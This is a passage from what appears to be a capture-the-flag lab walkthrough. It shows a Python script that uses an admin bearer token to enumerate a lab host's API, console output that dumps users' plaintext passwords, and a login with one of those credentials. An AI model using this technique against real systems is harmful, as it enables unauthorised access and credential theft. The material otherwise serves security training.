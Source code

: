       # ===AUTHENTICATION-AND-ENUMERATION-ON-PORT-3000====================
      
      headers = {
          "Accept": "application/json",
          "Authorization": "Bearer " + token
      }
      print("[HTTP GET REQUESTS @ 10.10.10.137:3000]\n")
      while True:
          get = input("GET /")
          try:
              users = session.get(target+"/"+get, headers=headers)
              
              switch = {
                  "<class 'str'>": lambda x: print("   ", x),
                  "<class 'dict'>": lambda x: print("   ", x),
                  "<class 'list'>": lambda x: [print("   ", i) for i in x]
              } [str(type(users.json()))] (users.json())
          except:
              print("    Cannot GET /"+ get)
      ```
   2. Running `3000.py` using `python3`:
      ```console
      $ python3 3000.py
   
        [JSON WEB TOKEN]

        eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY2ODU3MTYyLCJleHAiOjE1NjY5NDM1NjJ9.WjGYaDQUci24PMrAmK4Hmqx68rDu6Bn_QF-vk5jGIUw

        [HTTP GET REQUESTS @ 10.10.10.137:3000]

      $ GET /
            {'message': 'Welcome admin ! '}
      $ GET /login
            please auth
      $ GET /users
            {'ID': '1', 'name': 'Admin', 'Role': 'Superuser'}
            {'ID': '2', 'name': 'Derry', 'Role': 'Web Admin'}
            {'ID': '3', 'name': 'Yuri', 'Role': 'Beta Tester'}
            {'ID': '4', 'name': 'Dory', 'Role': 'Supporter'}
      $ GET /users/admin
            {'name': 'Admin', 'password': 'WX5b7)>/rp$U)FW'}
      $ GET /users/derry
            {'name': 'Derry', 'password': 'rZ86wwLvx7jUxtch'}
      $ GET /users/yuri
            {'name': 'Yuri', 'password': 'bet@tester87'}
      $ GET /users/dory
            {'name': 'Dory', 'password': '5y:!xa=ybfe)/QD'}
      $ GET /^C
      ```
4. Attempt to login back at `http://10.10.10.137/management`:
   ```html
   <h1>Index of /management</h1>
   <ul>
     <li><a href="/"> Parent Directory</a></li>
     <li><a href="config.json"> config.json</a></li>
     <li><a href="config.php"> config.php</a></li>
     <li><a href="login.php"> login.php</a></li>
   </ul>
   ```
   __NOTE(S)__:
   1. Login was successful using `Derry:rZ86wwLvx7jUxtch`
   2. `config.json` is an __Ajenti__ config file:
      ```json	      	
